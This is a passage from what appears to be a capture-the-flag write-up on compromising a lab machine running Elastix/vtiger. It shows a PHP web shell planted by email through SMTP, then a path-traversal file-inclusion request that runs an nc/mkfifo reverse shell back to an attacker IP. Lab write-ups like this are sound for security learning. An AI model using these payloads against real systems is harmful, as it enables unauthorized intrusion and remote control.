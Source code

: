```
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
Cpus_allowed:	00000001
Mems_allowed:	1
```
As we can see we do get Uid 100 and Pid 101, checking with ```/etc/passwd``` we can see that this Uid is related to the user asterisk.  
now we can send an email to asterisk@localhost connecting to port 25:
```
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
HELO b0d.beep220 beep.localdomain ESMTP Postfix
.htb
250 beep.localdomain
VRFY asterisk@localhost
252 2.0.0 asterisk@localhost
MAIL FROM:<b0d@haha.com>
250 2.1.0 Ok
RCPT TO:<asterisk@localhost>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: you got pwned
<?php system($_REQUEST['cmd']);?>
.
250 2.0.0 Ok: queued as 862C3D92FD
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
```
Now that we have our payload uploaded, we can perform the following request and get a shell:
```
POST /vtigercrm/graph.php HTTP/1.1
Host: 10.10.10.7
Cookie: elastixSession=3oqenhc7bvtjcid4iuqpag7341; PHPSESSID=3bb02vcbjco3ntj9odbumor1o4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 175

current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action=&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.18+4444+>/tmp/f
```
